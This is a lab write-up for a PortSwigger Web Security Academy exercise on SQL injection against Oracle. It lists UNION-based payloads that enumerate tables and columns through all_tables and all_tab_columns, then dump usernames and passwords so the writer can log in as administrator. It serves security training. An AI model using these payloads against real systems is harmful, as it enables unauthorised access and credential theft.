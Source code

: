 # SQL injection attack, listing the database contents on Oracle

## Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'+FROM+dual--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GYCDOW'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+USERNAME_WWIUXV,+PASSWORD_GFLFLH+FROM+USERS_GYCDOW--
```
    
8. Find the password for the administrator user, and use it to log in.

![SQLi](../../_static/images/sqli12.png)

## Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and login as administrator. 
